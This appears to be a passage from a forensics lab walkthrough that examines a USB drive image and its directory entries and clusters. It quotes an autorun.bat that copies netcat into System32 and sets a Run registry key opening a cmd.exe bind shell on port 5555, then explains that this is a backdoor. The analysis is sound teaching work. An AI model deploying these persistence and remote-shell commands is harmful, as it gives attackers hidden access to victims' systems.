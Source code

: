 The autorun.inf file contained the following:

[autorun]
open=autorun.bat
action="starting network service"
While the autorun.bat file contained the following:

copy nc.exe "%SYSTEMROOT%/System32"
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "NETSRVICE" /t "REG_SZ" /d "%SYSTEMROOT%\System32\nc.exe -d -L -e cmd.exe -p 5555"
From the file above, we can see that the nc.exe file is being copied to the System32 directory under the system root directory (C:\Windows). After that, the REG ADD command is being used to add a registry entry to the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run key so that each time the system reboots the nc.exe is executed and a cmd.exe is attached to it. This cmd.exe could be reached by connecting to port 5555 as seen above.

So we can clearly say that the USB thumb drive is being used to create some sort of BACKDOOR on the victim's system.

Analyze each of their directory entries checking most importantly their file attributes.

Click for Answer
You can apply the same process we did in the previous task (i.e., task #2) here.
Examine the autorun.inf file directory entry

Click for Answer
How many clusters did each file consume and what are they?
Number	File name	No. of Clusters Used	Cluster No.
1	autorun.bat	1	82159
2	autorun.inf	1	82158
3	nc.exe	15	82143 - 82157
